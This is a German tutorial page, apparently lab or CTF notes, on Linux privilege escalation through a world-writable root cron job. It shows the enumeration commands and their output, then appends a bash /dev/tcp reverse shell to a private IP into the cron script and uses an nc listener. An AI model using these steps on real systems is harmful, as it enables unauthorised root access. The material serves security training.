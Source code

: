 ```yaml
---
title: Privilege Escalation
layout: default
nav_order: 8
---
```


# Beispiel für eine Privilege Escalation via Cronjobs: 
`cat /etc/crontab` -> gibt alle cronjobs aus

Output auf root cron jobs untersuchen. 
```
# /etc/crontab: system-wide crontab                                                                                    
# Unlike any other crontab you don't have to run the `crontab'                                                         
# command to install the new version when you edit this file                                                           
# and files in /etc/cron.d. These files also have username fields,                                                     
# that none of the other crontabs do.                                                                                  
                                                                                                                       
SHELL=/bin/sh                                                                                                          
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin                                                      
                                                                                                                       
# Example of job definition:                                                                                           
# .---------------- minute (0 - 59)                                                                                    
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
*/1 *    * * *   root    /etc/cron.daily/status_check
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```


Rechte für cron Job Files, die über root laufen überprüfen. Indem man folgenden Befehl darauf ausführt: z.B. `ls -la /etc/cron.daily/`

Output:
```
total 48
drwxr-xr-x 1 root root 4096 Sep 20  2019 .
drwxr-xr-x 1 root root 4096 Nov 29 10:20 ..
-rw-r--r-- 1 root root  102 Jun 23  2019 .placeholder
-rwxr-xr-x 1 root root  539 Apr  2  2019 apache2
-rwxr-xr-x 1 root root 1478 May 28  2019 apt-compat
-rwxr-xr-x 1 root root 1187 Apr 19  2019 dpkg
-rwxr-xr-x 1 root root 4128 Sep  3  2019 exim4-base
-rwxr-xr-x 1 root root  377 Aug 28  2018 logrotate
-rwxr-xr-x 1 root root  249 Sep 27  2017 passwd
-rwxrwxrwx 1 root root  171 Dec  4 12:14 status_check
-rwxr-xr-x 1 root root  538 Mar 31  2019 tomcat9
```

Output überprüfen, ob wir Rechte auf die cron job file (mit root rechten) haben. Hier ist es die Datei  `/etc/cron.daily/status_check` 

Ausgeben des Inhalts der Cron Job File mit:  `cat /etc/cron.daily/status_check`

Output: 
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/172.16.155.9/4444 0>&1
service ssh status
service apache2 status
service vsftpd status
/bin/bash -i >& /dev/tcp/172.16.144.6/443 0>&1
```


Reversshell generieren mit https://www.revshells.com/
Listener (dein Rechner)
z.B. mit:

`nc -lvnp 443`

Cronjob Datei um reverseshell Skript erweitern. Z.B. wie folgt: 
">> = datei um string erweitern"
```
echo "/bin/bash -i >& /dev/tcp/172.16.155.4/443 0>&1" >> /etc/cron.daily/status_check
```


Reverse shell wurde erfolgreich erstellt. 

![reverseshell](assets/reverseshell.png)